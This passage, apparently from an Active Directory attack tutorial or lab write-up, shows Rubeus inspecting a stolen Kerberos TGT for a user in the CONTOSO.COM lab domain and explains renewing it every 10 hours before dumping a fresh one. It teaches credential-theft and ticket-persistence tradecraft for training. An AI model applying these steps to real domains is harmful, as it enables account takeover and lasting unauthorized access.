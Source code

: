 ```batch
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFq[...snip...]uQ09N

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  11/04/2025 17:27:59
  EndTime                  :  12/04/2025 03:27:59
  RenewTill                :  18/04/2025 16:33:17
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  dYvwhkU1keAEgYuEbzLYOasJypZsWqJaQOMUN5hGLXw=
```

This means that we can renew a TGT every 10 hours, up until the RenewTill date is reached. After that, we'd have to dump a fresh TGT.
